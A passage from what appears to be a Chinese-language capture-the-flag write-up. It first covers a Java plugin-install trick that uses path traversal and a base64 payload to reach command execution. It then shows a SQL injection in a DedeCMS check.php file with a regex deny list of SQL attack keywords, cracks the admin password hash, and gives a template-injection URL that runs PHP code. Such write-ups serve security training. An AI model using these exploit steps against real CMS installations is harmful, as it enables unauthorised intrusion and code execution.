            Runtime.getRuntime().exec(exp);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

那么修改图片存放路径为../../../../../../../data之后，上传的plugins.txt内容如下

```
tmall.util.webplugins.HotInstallPlugin
```

打入/addCart?operate=install&num=base64编码的payload

最后访问/admin/category/getImg?path=/tmp/1

就可以看到回显的结果了。

‍

‍

# 传统方向

## dede

观察到plus/check.php文件有sql注入

```
<?php
require_once("../include/common.inc.php");
require_once(DEDEINC . "/arc.taglist.class.php");
$PageNo = 1;
function checksqls($sql)
{
    $filter = "/[^\{\s]{1}(\s|\b)+(?:select\b|update\b|insert(?:(\/\*.*?\*\/)|(\s)|(\+))+into\b).+?(?:from\b|set\b)|[^\{\s]{1}(\s|\b)+(?:create|delete|drop|truncate|rename|desc)(?:(\/\*.*?\*\/)|(\s)|(\+))+(?:table\b|from\b|database\b)|into(?:(\/\*.*?\*\/)|\s|\+)+(?:dump|out)file\b|\bsleep\([\s]*[\d]+[\s]*\)|benchmark\(([^\,]*)\,([^\,]*)\)|(?:declare|set|select)\b.*@|union\b.*(?:select|all)\b|(?:select|update|insert|create|delete|drop|grant|truncate|rename|exec|desc|from|table|database|set|where)\b.*(charset|ascii|bin|char|uncompress|concat_ws|conv|export_set|hex|instr|left|load_file|locate|mid|sub|substring|oct|reverse|right|unhex)\(|(?:master\.\.sysdatabases|msysaccessobjects|msysqueries|sysmodules|mysql\.db|sys\.database_name|information_schema\.|sysobjects|sp_makewebtask|xp_cmdshell|sp_oamethod|sp_addextendedproc|sp_oacreate|xp_regread|sys\.dbms_export_extension)/i";
    if (preg_match($filter, $sql)) {
        die("DedeCMS提示：当前输入的参数中存在恶意代码！");
    }
    return $sql;
}
$id = checksqls($_GET['id']);
global $dsql;
$row = $dsql->GetOne("Select * From `#@__check` where id = $id");
echo $row['type'];
?>
```

直接用sqlmap跑即可

admin的密码在dede\_admin表里面

爆破出来的admin密码是hash值，题目刚好给了一个字典

我们可以先将字典的密码加密成hash，然后跟题目的密码hash进行匹配

最后得出的密码就是

tianwei123A

‍

然后进入后台后有很多day可以打

文件上传或者模板注入

参考文章

```
https://xz.aliyun.com/news/1912
```

/dede/tag\_test\_action.php?url=a&token=&partcode={dede:fieldname='source' runphp='yes'}phpinfo( );{/dede:field}

‍
